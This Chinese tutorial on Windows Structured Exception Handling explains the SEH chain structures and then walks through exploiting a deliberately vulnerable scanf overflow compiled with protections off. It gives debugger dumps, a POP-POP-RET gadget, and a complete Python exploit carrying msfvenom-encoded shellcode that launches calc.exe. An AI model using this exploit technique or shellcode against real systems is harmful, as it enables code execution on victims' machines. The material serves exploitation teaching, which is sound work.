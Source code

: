# SEH(Structured Exception Handling)
## Instruction
结构化异常处理（SEH）是一种 Windows 机制，用于一致地处理硬件和软件异常。该结构通常表示为 try / except或try / catch 代码块。
```C
__try {
    // the block of code to try (aka the "guarded body")
    ...
}
__except (exception filter) {
    // the code to run in the event of an exception (aka the "exception handler)
    ...
}
```
异常处理程序可以由应用程序（通过上述 __try / __ except 构造）或由操作系统本身实现。由于错误的类型很多（除零，超出范围等），因此可以有许多相应的异常处理程序。

不论在何处定义异常处理程序（应用程序与操作系统），还是设计异常处理程序的类型，所有处理程序均由 Windows SEH 通过指定数据结构和函数的集合进行集中统一管理。

## SEH的主要组成部分
对于每个异常处理程序，都有一个 Exception Registration Record 结构，如下所示：
```C
typedef struct _EXCEPTION_REGISTRATION_RECORD { 
    struct _EXCEPTION_REGISTRATION_RECORD *Next; 
    PEXCEPTION_ROUTINE Handler; 
} EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD;
```
这些 Exception Registration Record 使用链表的结构连接在一起 。其中的第一个字段（*Next）是指向SEH链中下一个 _EXCEPTION_REGISTRATION_RECORD 的指针。换句话说，可以使用 *Next 从上到下浏览 SEH 链。第二个字段（Handler）是指向异常处理函数的指针，该函数如下所示：
```C
EXCEPTION_DISPOSITION 
__cdecl _except_handler(
    struct _EXCEPTION_RECORD *ExceptionRecord,
    oid EstablisherFrame,
    struct _CONTEXT *ContextRecord,
    void * DispatcherContext
);
```
第一个函数参数是指向 _EXCEPTION_RECORD 结构的指针。该结构包含有关给定异常的信息，包括异常代码，异常地址和参数数量。

_except_handler 函数使用这些信息，以确定异常是否可以由当前异常处理函数处理，或者它需要移交到下一个 Exception Registration Record 进行处理。
![SEH_Chain](./figure/SEH_Chain.jpg)

## 利用SEH
在 SEH 下，直接覆盖 SEH_Handler 字段，然后触发异常后，就可以直接控制程序的执行流。测试程序代码（使用VS2017命令行编译）：
```C
// cl SEH_Chain.c /GS- /DYNAMICBASE:NO /link /FIXED
int vul()
{
    char s[0x20] = {0};
    __try
    {
        scanf("%s",s);
    }
    __except(EXCEPTION_EXECUTE_HANDLER)
    {
        puts("GG");
    }        
    return 0;
}

int main(int argc, char **argv)
{
    puts("Welcome!");
    vul();
    return 0;
}
```
未修改的SEH链：
```
地址       异常处理例程   模块/标签     注释
0019FF60    00401E10    seh_chain 
0019FFCC    77A79F80    ntdll     
0019FFE4    77A88F07    ntdll     
```
栈空间：
```
0019FF60  0019FFCC  指向SEH_Record[1]的指针
0019FF64  00401E10  seh_chain.00401E10
0019FF68  E1C62A0A  
0019FF6C  00000000  
0019FF70  0019FF80  
0019FF74  76036359  返回到 kernel32.76036359 自 ???
0019FF78  00379000  
0019FF7C  76036340  kernel32.76036340
0019FF80  0019FFDC  
0019FF84  77A67B74  返回到 ntdll.77A67B74 自 ???
0019FF88  00379000  
0019FF8C  E03A396D  
0019FF90  00000000  
0019FF94  00000000  
0019FF98  00379000  
0019FF9C  00000000  
0019FFA0  00000000  
0019FFA4  00000000  
0019FFA8  00000000  
0019FFAC  00000000  
0019FFB0  00000000  
0019FFB4  00000000  
0019FFB8  00000000  
0019FFBC  00000000  
0019FFC0  00000000  
0019FFC4  0019FF8C  
0019FFC8  00000000  
0019FFCC  0019FFE4  指向SEH_Record[2]的指针
0019FFD0  77A79F80  ntdll.77A79F80
```
可以很清晰的看到SEH链的存在。scanf覆盖之后的SEH链：
```
地址       异常处理例程   模块/标签 注释
0019FF10    42424242  
42424242    00000000  
```
处理例程和下个SEH结构的位置都已经被修改。尝试输入大量数据以触发异常：
```python
python -c "print 'A'*0x28 + 'B'*8 + 'A'*0x200"
```
触发异常后的寄存器：
```
EAX : 00000000
EBX : 00000000
ECX : 42424242
EDX : 77A88DC0     ntdll.77A88DC0
EBP : 0019F0D8
ESP : 0019F0B8
ESI : 00000000
EDI : 00000000
EIP : 42424242
EFLAGS : 00010246
```
可以看到，EIP已经被控制到了输入的 BBBB(42424242) 处，从而控制了程序的执行流。
## SEH的常用利用方式
[attachment here](./figure/SEH_Chain_VC6.exe)

EIP被控制后的栈空间：
```
0019F0B8  77A88DA2  返回到 ntdll.77A88DA2 自 ???
0019F0BC  0019F1B8  
0019F0C0  0019FF10  "BBBBBBBBAAAAAAAAAAAAAAAAA... "
0019F0C4  0019F208  
0019F0C8  0019F144  &"BBBBBBBBAAAAAAAAAAAAAAAA... "
0019F0CC  0019F6FC  指向SEH_Record[1]的指针
0019F0D0  77A88DC0  ntdll.77A88DC0
0019F0D4  0019FF10  "BBBBBBBBAAAAAAAAAAAAAAAAA..."
0019F0D8  0019F1A0  
```
可以看到 ESP+0x8 处的地址正好指向触发异常的 SEH 的结构处，当程序未开启 DEP 时，可以通过 POP+POP+RET 的方式，执行到 ShellCode 上。寻找一个 gadget：（x32dbg ->右击->搜索->所有模块->命令，或者其他方法寻找）
```asm
0040292A | 5E | pop esi |
0040292B | 5B | pop ebx |
0040292C | C3 | ret     |
```
编写一个EXP：
```python
from pwintools import *
import struct

def p32(addr):
    return struct.pack("<I",addr)

pop_pop_ret = 0x0040136F

p = Process("./SEH_Chain_VC6.exe")

# msfvenom -p windows/exec CMD=calc.exe -e x86/shikata_ga_nai -b '\x09\x0a\x0b\x0c\x0d\x1a\x20' -f python
buf =  ""
buf += "\xb8\xb6\xc7\xe5\xf9\xda\xdb\xd9\x74\x24\xf4\x5d\x29"
buf += "\xc9\xb1\x31\x83\xed\xfc\x31\x45\x0f\x03\x45\xb9\x25"
buf += "\x10\x05\x2d\x2b\xdb\xf6\xad\x4c\x55\x13\x9c\x4c\x01"
buf += "\x57\x8e\x7c\x41\x35\x22\xf6\x07\xae\xb1\x7a\x80\xc1"
buf += "\x72\x30\xf6\xec\x83\x69\xca\x6f\x07\x70\x1f\x50\x36"
buf += "\xbb\x52\x91\x7f\xa6\x9f\xc3\x28\xac\x32\xf4\x5d\xf8"
buf += "\x8e\x7f\x2d\xec\x96\x9c\xe5\x0f\xb6\x32\x7e\x56\x18"
buf += "\xb4\x53\xe2\x11\xae\xb0\xcf\xe8\x45\x02\xbb\xea\x8f"
buf += "\x5b\x44\x40\xee\x54\xb7\x98\x36\x52\x28\xef\x4e\xa1"
buf += "\xd5\xe8\x94\xd8\x01\x7c\x0f\x7a\xc1\x26\xeb\x7b\x06"
buf += "\xb0\x78\x77\xe3\xb6\x27\x9b\xf2\x1b\x5c\xa7\x7f\x9a"
buf += "\xb3\x2e\x3b\xb9\x17\x6b\x9f\xa0\x0e\xd1\x4e\xdc\x51"
buf += "\xba\x2f\x78\x19\x56\x3b\xf1\x40\x3c\xba\x87\xfe\x72"
buf += "\xbc\x97\x00\x22\xd5\xa6\x8b\xad\xa2\x36\x5e\x8a\x5d"
buf += "\x7d\xc3\xba\xf5\xd8\x91\xff\x9b\xda\x4f\xc3\xa5\x58"
buf += "\x7a\xbb\x51\x40\x0f\xbe\x1e\xc6\xe3\xb2\x0f\xa3\x03"
buf += "\x61\x2f\xe6\x67\xe4\xa3\x6a\x46\x83\x43\x08\x96"

payload = ""
payload += "\x90"*0x28
payload += "\xEB\x14\x90\x90" # asm("jmp $+22")
payload += p32(pop_pop_ret)
payload += "\x90"*0x20
payload += buf
payload = payload.ljust(0x200,"\x90")

raw_input()
p.sendline(payload)
raw_input()
```
执行exp后，将会弹出一个计算器。

